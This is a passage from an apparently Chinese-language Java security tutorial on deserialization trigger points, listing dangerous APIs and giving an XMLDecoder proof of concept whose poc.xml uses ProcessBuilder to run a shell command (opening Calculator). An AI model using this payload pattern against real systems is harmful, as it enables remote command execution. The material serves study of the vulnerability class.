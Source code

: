 ## 2. 反序列化触发点扩展

上面展示了序列化和反序列化的原理，并且反序列化的触发点为`ObjectInputStream.readObject`。那么问题来了，是否Java反序列化只能由该点触发？答案当然是否定的。

除了上面的方法外，还有如下几种触发方式：

```java
ObjectInputStream.readObject// 流转化为Object
ObjectInputStream.readUnshared // 流转化为Object
XMLDecoder.readObject // 读取xml转化为Object
Yaml.load// yaml字符串转Object
XStream.fromXML// XStream用于Java Object与xml相互转化
ObjectMapper.readValue// jackson中的api
JSON.parseObject// fastjson中的api
```

Note: 对于readUnshared函数，其与readObject函数的区别暂时还没弄明白，引用网上的解释

> readUnshared方法读取对象，不允许后续的readObject和readUnshared调用引用这次调用反序列化得到的对象，而readObject读取的对象可以。

但其反序列化过程中仍然可以触发readObject的调用，有待弄清楚。

## 3. 扩展触发点试验

`readUnshared`函数的使用方式同`readObject`类似，这里不再叙述。这一小节主要讲各种触发点的利用方式，不讲具体的原理。原理部分留到后面分析。

### a. XMLDecoder.readObject

```java
public static void main(String[] args){
  String poc = "poc.xml";
  try {
    FileInputStream file = new FileInputStream(poc);
    XMLDecoder decoder = new XMLDecoder(file);
    decoder.readObject();
    decoder.close();
  } catch (FileNotFoundException e) {
    e.printStackTrace();
  }
}
```

poc.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/sh</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open /Applications/Calculator.app</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
